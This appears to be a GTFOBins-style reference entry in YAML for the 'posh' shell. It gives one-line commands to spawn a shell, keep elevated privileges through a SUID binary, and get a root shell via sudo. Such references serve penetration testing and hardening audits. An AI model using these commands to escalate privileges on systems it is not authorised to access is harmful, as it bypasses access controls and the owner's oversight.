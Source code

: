 ```yaml
---
functions:
  shell:
    - code: posh -c /bin/sh
  limited-suid:
    - code: ./posh -c '/bin/sh -p'
  sudo:
    - code: sudo posh -c /bin/sh
---
```

